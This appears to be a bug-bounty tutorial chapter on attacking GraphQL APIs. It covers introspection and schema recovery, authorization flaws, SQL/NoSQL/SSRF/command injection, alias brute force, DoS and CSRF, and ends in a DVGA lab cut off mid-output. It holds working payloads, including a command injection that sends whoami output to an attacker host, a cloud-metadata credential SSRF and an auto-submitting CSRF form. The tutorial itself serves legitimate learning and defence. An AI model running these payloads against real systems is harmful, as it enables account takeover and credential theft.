





This is Chapter 2 of the APIs & CMS notebook. Chapter 1 built a repeatable methodology for REST APIs — discovery, documentation harvesting, BOLA/BFLA authorization testing, mass assignment, injection, and business-logic abuse. GraphQL is the other API paradigm you will meet constantly on modern bug-bounty programs, and although the *bugs* rhyme with REST (authorization is still the number-one killer), the *shape* of the attack surface is completely different. A single GraphQL endpoint — almost always one URL, usually `/graphql` — replaces dozens of REST routes, and the client, not the server, decides exactly what data comes back. That inversion of control is powerful for developers and a goldmine for attackers.

We start from the absolute basics — what GraphQL is, why companies adopt it, and how the type system, queries, mutations, subscriptions, and resolvers fit together — so a beginner who has never sent a GraphQL request can follow. Then we climb to the exact tradecraft a senior tester uses: recovering a schema from an endpoint that "disabled introspection", abusing query batching to bypass rate limits and brute-force protections, weaponising aliases for denial-of-service and 2FA-code guessing, finding BOLA/BFLA in resolvers, chaining GraphQL arguments into SQL/NoSQL/SSRF/command injection, and pulling off CSRF against mutation endpoints. By the end you will have a mental model of the GraphQL attack surface and a checklist you can run against any endpoint you find in the wild.

---

## Part 1: What Is GraphQL, and Why Should an Attacker Care?

### The plain-English definition

**GraphQL** is a **query language for APIs** and a **server-side runtime** for executing those queries against your data. It was created inside Facebook in 2012 to power their mobile apps and open-sourced in 2015. The name is a contraction of "Graph Query Language": it treats your application's data as a *graph* of connected objects (a user *has* posts, a post *has* comments, a comment *has* an author), and lets a client walk that graph in a single request, asking for exactly the fields it wants and nothing more.

Contrast that with REST. In a REST API, the *server* defines the shape of each response. To render a screen showing a user, their last five posts, and the comment count on each, a mobile client might call `GET /users/42`, then `GET /users/42/posts?limit=5`, then five separate `GET /posts/{id}/comments/count` calls — the classic "N+1 round trips" and "over-fetching / under-fetching" problem. With GraphQL, the client sends **one** request describing the entire tree it wants, and the server returns a JSON object mirroring that exact shape:

```graphql
query {
  user(id: 42) {
    name
    email
    posts(last: 5) {
      title
      commentCount
    }
  }
}
```

The response mirrors the query:

```json
{
  "data": {
    "user": {
      "name": "Alice",
      "email": "alice@example.com",
      "posts": [
        { "title": "Hello World", "commentCount": 3 },
        { "title": "GraphQL is neat", "commentCount": 12 }
      ]
    }
  }
}
```

### Why this matters to an attacker

That single-request, client-controlled model is exactly what makes GraphQL a rich target:

- **One endpoint, huge surface.** Instead of enumerating dozens of REST paths, you attack `/graphql`. But behind that one URL sit *every* query, mutation, and type the application exposes — often hundreds of operations. The schema *is* the attack surface, and (Part 4) you can frequently download it wholesale.
- **The client picks the fields.** Authorization must be enforced *per field, per object, in every resolver*. Developers who correctly locked down a REST route routinely forget that the same object is reachable through five different GraphQL paths. This is why **broken authorization (BOLA/BFLA) is the dominant GraphQL bug class** on bug-bounty programs.
- **Batching and aliases multiply requests.** A single HTTP request can carry hundreds of operations (Part 8), which quietly defeats rate limiting, IP-based brute-force protection, and 2FA lockouts, and enables cheap denial-of-service.
- **Introspection leaks the blueprint.** GraphQL ships with a built-in "tell me your entire schema" feature (Part 4). Even when it's turned off, error-message suggestions and field-stuffing tools often reconstruct it.

**Bug-bounty reality check:** GraphQL bugs are consistently well-paid because they are high-impact (mass data exposure, account takeover via mutations) and under-tested (many scanners still don't speak GraphQL). Disclosed reports on HackerOne against GitLab, HackerOne itself, Shopify, and others repeatedly show BOLA-through-GraphQL and introspection-driven schema discovery as the entry points.

---

## Part 2: The GraphQL Type System, Operations, and the SDL

Before you can attack a schema, you have to read one. GraphQL is **strongly typed**: every field has a type, and the whole API is described by a **schema** written in the **Schema Definition Language (SDL)**. Understanding SDL is non-negotiable — introspection output, InQL's rendered schema, and error messages all speak it.

### Scalars, objects, and the SDL

The built-in **scalar types** are `Int`, `Float`, `String`, `Boolean`, and `ID` (a serialized-as-string unique identifier). Everything else is a composite type you define:

```graphql
type User {
  id: ID!
  name: String!
  email: String
  isAdmin: Boolean!
  posts: [Post!]
}

type Post {
  id: ID!
  title: String!
  body: String
  author: User!
}
```

Two pieces of punctuation carry security-relevant meaning:

- **`!` means non-null.** `id: ID!` is a field that can never be null. `posts: [Post!]` is a list whose *elements* are non-null, but the list itself may be null.
- **`[ ]` means a list.** `[Post!]!` is a non-null list of non-null posts.

Other type kinds you'll meet:

| SDL construct | Meaning | Why an attacker cares |
|---|---|---|
| `type` | An **object type** with fields | The bulk of the data graph; each field is a resolver to probe for authz |
| `input` | An **input object**, used as mutation arguments | Prime **mass-assignment** target — try adding fields like `isAdmin`, `role` |
| `enum` | A fixed set of allowed values | Reveals states/roles (`ADMIN`, `PENDING`) worth targeting |
| `interface` / `union` | Polymorphic types resolved at runtime | `__typename` and inline fragments let you enumerate concrete types |
| `scalar` | Custom scalar (e.g. `DateTime`, `JSON`) | Custom `JSON` scalars often smuggle unvalidated blobs into resolvers |
| `directive` | Metadata like `@deprecated`, `@auth` | `@deprecated` fields are often forgotten and left unprotected |

### The three operation types

A GraphQL server exposes up to three **root operation types**, and these are literally special object types named by convention:

```graphql
type Query {        # READ operations — the entry points for reads
  user(id: ID!): User
  me: User
  posts: [Post!]!
}

type Mutation {     # WRITE operations — create/update/delete/state change
  createPost(input: CreatePostInput!): Post
  updateUser(id: ID!, input: UpdateUserInput!): User
  login(email: String!, password: String!): AuthPayload
}

type Subscription { # real-time streams over WebSockets
  postAdded: Post
}
```

- **Query** = reads. Idempotent, safe to fire repeatedly. Your enumeration and data-exfil playground.
- **Mutation** = writes. This is where account takeover, privilege escalation, and mass assignment live. Test every mutation for who is *allowed* to call it.
- **Subscription** = server-push over WebSockets (usually `graphql-ws` / `subscriptions-transport-ws`). Often an afterthought, and frequently missing the auth checks the query/mutation paths have.

### Arguments, variables, aliases, and fragments

Four query features are the raw material for most GraphQL attacks, so learn them cold:

```graphql
# Arguments: passed to a field, handed straight to the resolver.
query { user(id: "42") { name } }

# Variables: parameterise a named operation (this is what Burp/InQL send).
query GetUser($id: ID!) {
  user(id: $id) { name email }
}
# with a separate JSON "variables": { "id": "42" }

# Aliases: rename a field in the response — and, crucially, let you
# request the SAME field many times in one query (Part 8 weaponises this).
query {
  a: user(id: "1") { email }
  b: user(id: "2") { email }
}

# Fragments: reusable field sets, and inline fragments for unions/interfaces.
query {
  search(term: "x") {
    __typename
    ... on User { email }
    ... on Post { title }
  }
}
```

Aliases are the single most abused feature in offensive GraphQL: because each alias is an independent field resolution, one request can trigger hundreds or thousands of resolver executions — the basis for batching attacks, brute force, and DoS.

---

## Part 3: How a Request Is Executed — The Resolver Model

You cannot reason about GraphQL authorization bugs without understanding **resolvers**, because that is *where authorization does or does not happen*.

Every field in the schema is backed by a **resolver function** — a small piece of server code that knows how to fetch that one field's value. When a query arrives, the engine walks the query tree and calls the resolver for each requested field, passing four arguments (conventionally `parent, args, context, info`):

- **`parent`** — the value resolved by the parent field (e.g. the `User` object when resolving `user.email`).
- **`args`** — the arguments the client supplied (`id: "42"`), *attacker-controlled input*.
- **`context`** — per-request shared state, typically holding the authenticated user, DB handles, loaders. **This is where the current user's identity and roles live**, and therefore where authz checks must read from.
- **`info`** — the AST/execution metadata (rarely relevant to attacks).



The critical takeaway: **the engine enforces types and query validity, but it does NOT enforce authorization.** Nothing in GraphQL automatically checks that the caller is allowed to see `user(id:42)` or call `deleteUser`. Every resolver must do its own check against `context.user`. When one resolver forgets — say `post.author.email` returns the email even though `me.email` is protected — you have a BOLA. This is why the *same* object reached through two different query paths can have two different authorization outcomes, and why exhaustive path enumeration (Part 6) finds bugs scanners miss.

**Blue-team relevance:** because authz is per-resolver, defenders can't bolt on one gateway rule and call it done. The robust fix is centralised authorization at the data-access layer or via schema directives (`@auth(requires: ADMIN)`) enforced in a validation rule — covered in Part 12.

---

## Part 4: Introspection — Downloading the Blueprint

GraphQL's killer feature for attackers is **introspection**: the schema can be queried *about itself*. Every spec-compliant server exposes meta-fields `__schema`, `__type`, and `__typename`. Tools like GraphiQL and Apollo Sandbox rely on introspection to render their docs — which means if those work, so does your enumeration.

### The minimal introspection probe

First, just confirm introspection is on with a tiny query — don't fire the giant one blind:

```graphql
query { __schema { queryType { name } } }
```

Sent over HTTP:

```bash
curl -s https://target.tld/graphql \
  -H 'Content-Type: application/json' \
  -d '{"query":"query{__schema{queryType{name}}}"}'
```

A response like `{"data":{"__schema":{"queryType":{"name":"Query"}}}}` means introspection is **enabled** — jackpot.

### The full introspection query

To dump the entire schema you send the canonical full introspection query. It's long; here's the core shape (the real one recurses into `ofType` several levels for nested list/non-null wrappers):

```graphql
query IntrospectionQuery {
  __schema {
    queryType { name }
    mutationType { name }
    subscriptionType { name }
    types {
      ...FullType
    }
    directives { name description locations args { ...InputValue } }
  }
}
fragment FullType on __Type {
  kind name description
  fields(includeDeprecated: true) {
    name description
    args { ...InputValue }
    type { ...TypeRef }
    isDeprecated deprecationReason
  }
  inputFields { ...InputValue }
  interfaces { ...TypeRef }
  enumValues(includeDeprecated: true) { name isDeprecated deprecationReason }
  possibleTypes { ...TypeRef }
}
fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue }
fragment TypeRef on __Type {
  kind name
  ofType { kind name ofType { kind name ofType { kind name } } }
}
```

Note `fields(includeDeprecated: true)` and `enumValues(includeDeprecated: true)` — **always set these true**. Deprecated fields are exactly the forgotten, under-maintained corners where authz is stale.

### Turning introspection JSON back into readable SDL

Raw introspection JSON is unreadable. Two workflows convert it:

- **Burp + InQL (teach-from-scratch below).**
- **graphql-cli / get-graphql-schema:**

```bash
npm install -g get-graphql-schema
get-graphql-schema https://target.tld/graphql > schema.graphql
```

That yields the clean SDL you saw in Part 2 — your map of every query, mutation, argument, and input object to attack.

### Tool from scratch: InQL

**What it is.** InQL is a Burp Suite extension (also a standalone CLI) for GraphQL security testing. It runs introspection, renders the schema as a browsable tree, and generates ready-to-send queries/mutations for every operation — so you don't hand-craft each one.

**Why it exists.** Manually writing a valid query for every operation in a 300-type schema is hopeless. InQL automates schema recovery and query generation, and feeds requests straight into Repeater/Intruder.

**Install (Burp).** BApp Store → search "InQL" → Install. (CLI: `pipx install inql`.)

**Core workflow.**

1. Proxy the target through Burp so InQL sees the `/graphql` endpoint.
2. In the InQL tab, enter the URL (and any auth header) and run introspection.
3. Browse the generated tree of queries and mutations; each node is a pre-built operation with placeholder arguments.
4. Right-click any generated query → **Send to Repeater** and start manipulating arguments/fields.

**CLI equivalent:**

```bash
inql -t https://target.tld/graphql -o inql_output
# writes schema.json, an SDL file, and a directory of generated
# .query / .mutation files you can curl or import into Repeater
```

**Red-team / bounty usage:** InQL's generated mutation list is your BFLA checklist — every `delete*`, `update*`, `admin*`, `setRole*` mutation is a candidate for "can a low-priv user call this?"

---

## Part 5: When Introspection Is "Disabled" — Recovering the Schema Anyway

Many production servers disable introspection (Apollo does so by default in production; others use `graphql-disable-introspection`). Beginners stop here. Don't — a disabled introspection endpoint is very often still fully mappable.

### Step 1: Fingerprint the engine with graphw00f

**Tool from scratch: graphw00f.** It's the "nmap of GraphQL" — it fingerprints *which* GraphQL server implementation is running (Apollo, graphql-yoga, Hasura, graphene/Python, Ariadne, graphql-ruby, HyperGraphQL, etc.) by sending malformed/edge-case queries and matching error signatures.

**Why it matters.** Each engine has different default protections, different error verbosity, and different known bypasses. Knowing it's `graphene` (Python) vs `Apollo` (Node) tells you whether field suggestions are on, whether batching is enabled by default, and which DoS defenses ship out of the box.

```bash
git clone https://github.com/dolevf/graphw00f && cd graphw00f
python3 main.py -f -d -t https://target.tld/graphql
#  -f  fingerprint engine
#  -d  detect the GraphQL endpoint (path discovery)
#  -t  target URL
```

Sample output:

```
[*] Checking https://target.tld/graphql
[*] Discovered GraphQL Engine: (Apollo)
[!] Attack Surface Matrix: https://github.com/.../Apollo.md
[*] Technologies: JavaScript, Node.js
```

graphw00f also carries an **endpoint discovery** mode — GraphQL isn't always at `/graphql`. Common paths to fuzz:

| Path | Notes |
|---|---|
| `/graphql` | The default; try first |
| `/graphql/console`, `/graphiql`, `/playground` | In-browser IDEs; often left on |
| `/api/graphql`, `/v1/graphql`, `/v2/graphql` | Versioned gateways |
| `/query`, `/graphql-api`, `/graphql/v1` | Framework-specific |
| `/index.php?graphql`, `/graphql.php` | PHP stacks |
| `/.netlify/functions/graphql` | Serverless deployments |

### Step 2: Field suggestions (the "did you mean" leak)

Many engines (notably Apollo/graphql-js) return **suggestions** on a typo:

```json
{"errors":[{"message":"Cannot query field \"passwrd\" on type \"User\". Did you mean \"password\"?"}]}
```

That single message just confirmed a `password` field exists on `User` **with introspection fully disabled**. This is the leak that clairvoyance automates.

### Step 3: Reconstruct the schema with Clairvoyance

**Tool from scratch: Clairvoyance.** It rebuilds a GraphQL schema *without* introspection by brute-forcing field names against a wordlist and mining the "Did you mean …" suggestion messages, iteratively discovering types and fields until it produces a usable schema JSON.

```bash
pip install clairvoyance
clairvoyance -o schema.json \
  -w /usr/share/wordlists/graphql/wordlist.txt \
  https://target.tld/graphql
# -o  output schema file (import into InQL)
# -w  wordlist of candidate field names
```

It emits a partial-but-often-complete introspection JSON you can load into InQL/GraphiQL exactly as if introspection had been on.



**Defense preview:** disabling introspection is *defense-in-depth, not a fix*. As this part shows, the schema leaks through suggestions anyway. The real fixes are turning off field suggestions in production and — critically — fixing the authorization the schema exposes (Part 12).

---

## Part 6: Broken Authorization — BOLA and BFLA, the #1 GraphQL Bug

Authorization flaws are the highest-impact and most common GraphQL vulnerabilities. Because auth is enforced per-resolver (Part 3), GraphQL gives you *many paths to the same object*, and defenders miss some.

### BOLA — Broken Object Level Authorization (IDOR in GraphQL clothing)

BOLA is accessing an object you don't own by supplying its identifier. In GraphQL it's often trivial because IDs are arguments:

```graphql
# You are user 1001. Can you read someone else's record?
query { user(id: "1002") { id name email phone address } }
```

If that returns 1002's PII, it's a textbook BOLA. Test systematically:

- Swap IDs (sequential, then UUIDs harvested elsewhere).
- Reach the object through **a different path**. Maybe `user(id:1002)` is protected, but `post(id: 55){ author { email phone } }` is not — the `author` resolver forgot the check.
- Look for **fields that leak more than the top-level query allows**: `me { email }` may be fine, but `organization { members { email } }` might spill every colleague's email.

### BFLA — Broken Function Level Authorization

BFLA is calling a *function* (usually a mutation) you shouldn't be able to. Your InQL/Clairvoyance schema is the checklist:

```graphql
# As a normal user, try an admin-only mutation
mutation {
  updateUserRole(userId: "1001", role: ADMIN) { id role }
}

mutation { deletePost(id: "55") { id } }         # delete someone else's post
mutation { setSubscriptionTier(userId:"1001", tier: ENTERPRISE) { ok } }
```

If a non-privileged token executes these, it's BFLA — frequently a direct path to privilege escalation or account takeover.

### Methodology for exhaustive authz testing



**Two-account diffing** is the gold standard: run the *same* operation as victim and as attacker; any success as attacker against victim data is a finding. Burp's "Request minimizer" / a simple script that replays every generated InQL operation with the attacker token makes this scalable.

**Bug-bounty note:** GitLab, HackerOne, and Shopify disclosed reports repeatedly feature GraphQL BOLA where a nested field (comments' author email, project members, private notes) leaked despite the direct query being locked down. Always test the *nested* paths, not just the obvious top-level query.

---

## Part 7: Injection Through GraphQL — SQLi, NoSQLi, SSRF, and Command Injection

GraphQL is **not** a security boundary against injection. Arguments flow into resolvers, and resolvers talk to databases, internal HTTP services, and the OS. If a resolver concatenates an argument into a query or a URL, GraphQL is just a fancy delivery mechanism for the classic bug.

### SQL injection via arguments

```graphql
# A search resolver that builds  ... WHERE name LIKE '%<term>%'
query { searchUsers(term: "x' OR '1'='1") { id email } }

# UNION-style probe when the resolver interpolates directly
query { product(category: "books' UNION SELECT username,password FROM users-- -") { id name } }
```

Because the payload rides inside a JSON string, escape quotes for the JSON layer and let the value carry the SQL metacharacters. Blind/boolean and time-based techniques (from the SQLi chapters) apply unchanged; you just deliver them through the argument.

### NoSQL injection (Mongo-backed resolvers)

If the resolver passes an input object straight into a Mongo query, operator injection via variables is deadly:

```graphql
query Login($u: String!, $p: JSON!) {
  login(username: $u, password: $p) { token }
}
```

```json
{ "u": "admin", "p": { "$ne": null } }
```

A custom `JSON` scalar (Part 2) is the enabler here — it lets `{"$ne": null}` reach the driver unvalidated, turning the password check into "any password".

### SSRF via URL-taking arguments

Any argument that becomes a server-side fetch is an SSRF candidate:

```graphql
mutation {
  importAvatar(url: "http://169.254.169.254/latest/meta-data/iam/security-credentials/")
  { ok }
}
query { linkPreview(url: "http://localhost:6379/") { title } }
```

This is the same cloud-metadata attack from the SSRF chapter, delivered through a mutation argument.

### OS command injection

Resolvers that shell out (image resize, PDF export, `ping`/network tools) are classic:

```graphql
query { ping(host: "127.0.0.1; id") { output } }
query { convert(filename: "a.png; curl http://attacker/`whoami`") { url } }
```

| Injection class | GraphQL delivery vector | Quick detection payload |
|---|---|---|
| SQLi | String argument → SQL builder | `term: "x' OR SLEEP(5)-- -"` (time-based) |
| NoSQLi | `JSON`/object input → Mongo | `{"$ne": null}` / `{"$gt": ""}` |
| SSRF | URL argument → server fetch | `url: "http://169.254.169.254/..."` |
| Command | Argument → shell/exec | `host: "127.0.0.1; id"` |
| XSS (stored) | String stored, rendered later | `name: "<script>alert(1)</script>"` |

**Key mental shift:** treat every GraphQL *argument* the way you treat a REST *parameter*. The transport changed; the injection didn't.

---

## Part 8: Batching, Aliases, and Rate-Limit / Brute-Force Bypass

This is the attack class unique to GraphQL, and it's devastatingly effective because most rate limiting counts **HTTP requests**, while GraphQL lets one HTTP request carry **hundreds of operations**.

### Alias-based batching (one request, many operations)

Because aliases let you call the same field repeatedly, you can pack an entire brute-force into a single POST:

```graphql
mutation {
  a1: login(email: "victim@x.com", password: "Password1") { token }
  a2: login(email: "victim@x.com", password: "Password2") { token }
  a3: login(email: "victim@x.com", password: "Password3") { token }
  # ... up to a4000: ...
}
```

One HTTP request, thousands of password guesses. If the server rate-limits by request count, this sails straight past it. The same trick defeats:

- **2FA / OTP brute force** — submit every 000000–999999 code in batched aliases before the code expires.
- **Coupon / gift-card guessing.**
- **Any per-request throttle.**

### Array-based batching

Many servers also accept a **JSON array of operations** in one request (a separate feature from aliases):

```json
[
  {"query":"mutation{ login(email:\"v@x.com\", password:\"a\"){token} }"},
  {"query":"mutation{ login(email:\"v@x.com\", password:\"b\"){token} }"},
  {"query":"mutation{ login(email:\"v@x.com\", password:\"c\"){token} }"}
]
```

The server processes and returns an array of results. Same bypass, different wire format — test **both** because a server may block one and allow the other.



**Detection PoC to report:** show the single request containing N login attempts returning N results, proving the throttle counts requests not operations. That's a clean, high-signal writeup.

### Defenses to note (and probe for)

Well-defended servers cap batch size, disable array batching, apply cost analysis per-operation, or rate-limit by resolved-field count. If your 4000-alias query is rejected with a "max aliases exceeded" or "query cost too high" error, note the limit — you've fingerprinted their protection, and smaller batches may still help.

---

## Part 9: Denial-of-Service — Deep Nesting, Aliases, and Field Duplication

GraphQL's flexibility makes cheap DoS easy if the server lacks depth/cost limits. These are **destructive** — only run them against your own lab or with explicit authorization and agreed limits on a bounty program (many programs forbid DoS testing outright; read scope first).

### Circular / deeply nested queries

If the schema has a cycle (a `User` has `posts`, a `Post` has an `author` who is a `User`…), you can nest it to exhaust CPU/memory:

```graphql
query {
  user(id: 1) {
    posts {
      author {
        posts {
          author {
            posts { author { posts { title } } }
          }
        }
      }
    }
  }
}
```

Each level multiplies the resolver work and DB load. Without a **depth limit** this can hang the server.

### Alias / field-duplication amplification

```graphql
query {
  a: __typename
  b: __typename
  c: __typename
  # ... duplicated thousands of times, or an expensive field aliased N times
}
```

Or duplicate an *expensive* field (one that hits the DB or an external API) hundreds of times via aliases — the "aliased field overloading" DoS.

### Directive overloading

Some engines choke on many duplicated directives on a single field:

```graphql
query { user(id:1) @include(if:true) @include(if:true) @include(if:true) { id } }
```

| DoS technique | Mechanism | Defense that stops it |
|---|---|---|
| Deep nesting | Cyclic type traversal explodes work | Max query **depth** limit |
| Alias overloading | Same expensive field resolved N times | **Alias count** limit + cost analysis |
| Field duplication | Huge query body, many fields | Query **cost/complexity** analysis |
| Array batching flood | Thousands of ops per request | **Batch size** cap / disable batching |
| Directive overloading | Parser/validator blowup | Directive count validation |

**Blue-team:** the durable defenses are **query depth limiting**, **complexity/cost analysis** (assign each field a cost, reject over a budget), **alias & directive count caps**, and **timeouts**. Libraries: `graphql-depth-limit`, `graphql-cost-analysis`, `graphql-query-complexity`, Apollo's built-in `maxAliases`/`maxDepth` plugins.

---

## Part 10: CSRF, Information Disclosure, and Mass Assignment

Three more high-frequency GraphQL bug classes round out the surface.

### CSRF against GraphQL

GraphQL usually expects `POST` with `Content-Type: application/json`, which browsers can't send cross-origin without a preflight — a natural CSRF defense. But two mistakes reopen it:

1. **The server accepts `Content-Type: application/x-www-form-urlencoded` (or `text/plain`, or `multipart/form-data`).** These are "simple requests" that skip preflight, so a hidden auto-submitting form can fire a mutation using the victim's cookies:

```html
<form action="https://target.tld/graphql" method="POST" enctype="text/plain">
  <input name='{"query":"mutation{ changeEmail(email:\"attacker@evil.com\"){ok} }","variables":{}}' value="">
</form>
<script>document.forms[0].submit()</script>
```

2. **The server accepts the query in a `GET` request** (some allow `?query=...`). Then a simple `` — where mutations-over-GET are wrongly enabled — triggers state change.

**Test:** replay a mutation with `Content-Type: application/x-www-form-urlencoded` and as a GET. If either works and only cookies authenticate the request (no CSRF token, no custom header requirement), you have CSRF.

### Information disclosure through errors and suggestions

- **Verbose errors** leak stack traces, ORM/SQL fragments, file paths, library versions. Trigger them with malformed queries and read everything.
- **Field suggestions** (Part 5) leak schema even when introspection is off.
- **`__typename` on unions/interfaces** enumerates concrete types.
- **Debug/tracing extensions** (Apollo tracing, `extensions` blocks) sometimes ship in prod, leaking resolver timings and query plans.

### Mass assignment via input objects

Input objects (Part 2) are mutation arguments, and resolvers often spread the whole input into a DB update. Try smuggling privileged fields the UI never sends:

```graphql
mutation {
  updateProfile(input: {
    displayName: "me",
    isAdmin: true,          # <-- not in the UI, maybe honored
    role: "ADMIN",
    accountBalance: 999999,
    emailVerified: true
  }) { id role isAdmin }
}
```

If the schema's `input` type doesn't declare those fields, the query errors — but if a lax custom-scalar/JSON input or an over-broad input type accepts them, you get privilege escalation or balance tampering. Recover the exact `input` field list from the schema and test every writable field for over-permissioning.

---

## Part 11: Hands-On Lab — Attacking DVGA End-to-End

This lab walks a full workflow against **DVGA (Damn Vulnerable GraphQL Application)**, a deliberately insecure GraphQL target built for practice. Everything here is lab-scoped and legal — never run these techniques against systems you don't own or aren't authorized to test.

### Lab setup

```bash
# Run DVGA locally in Docker
docker pull dolevf/dvga
docker run -t -p 5013:5013 -e WEB_HOST=0.0.0.0 dolevf/dvga
# App now at http://localhost:5013 ; GraphQL endpoint at /graphql
```

Confirm the endpoint and fingerprint it:

```bash
# 1. Is there a GraphQL endpoint here?
curl -s http://localhost:5013/graphql \
  -H 'Content-Type: application/json' \
  -d '{"query":"{__typename}"}'
# -> {"data":{"__typename":"Query"}}

# 2. Fingerprint the engine
python3 graphw00f/main.py -f -t http://localhost:5013/graphql
# -> [*] Discovered GraphQL Engine: (Graphene)   (Python)
```

### Step 1: Introspection and schema recovery

```bash
curl -s http://localhost:5013/graphql \
  -H 'Content-Type: application/json' \
  -d '{"query":"query{__schema{queryType{name} mutationType{name} types{name kind}}}"}' | python3 -m json.tool
```

Realistic (trimmed) output:

```json
{
  "data": {
    "__schema": {
      "queryType": { "name": "Query" },
      "mutationType": { "name": "Mutations" },
      "types": [
